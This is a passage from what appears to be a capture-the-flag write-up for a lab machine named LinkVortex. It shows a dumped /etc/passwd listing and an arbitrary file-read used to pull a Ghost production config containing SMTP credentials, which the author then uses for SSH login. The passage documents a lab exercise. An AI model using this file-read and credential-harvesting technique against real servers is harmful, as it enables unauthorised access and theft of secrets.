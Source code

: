irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash")}}

{{text("When I was looking through the files dumped from the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>.git</code> directory, there was a line saying to copy <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>config.production.json</code> to the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/var/lib/ghost/</code> directory.")}}

{{console("", "Enter a file path to read from the server: /var/lib/ghost/config.production.json

{
  'url': 'http://localhost:2368',
  'server': {
    'port': 2368,
    'host': '::'
  },
  'mail': {
    'transport': 'Direct'
  },
  'logging': {
    'transports': ['stdout']
  },
  'process': 'systemd',
  'paths': {
    'contentPath': '/var/lib/ghost/content'
  },
  'spam': {
    'user_login': {
        'minWait': 1,
        'maxWait': 604800000,
        'freeRetries': 5000
    }
  },
  'mail': {
     'transport': 'SMTP',
     'options': {
      'service': 'Google',
      'host': 'linkvortex.htb',
      'port': 587,
      'auth': {
        'user': 'bob@linkvortex.htb',
        'pass': [REDACTED]
        }
      }
    }
}")}}

{{text("With those credentials, it is possible for us to log in by SSH.")}}

{{header("Final flag", "final-flag")}}
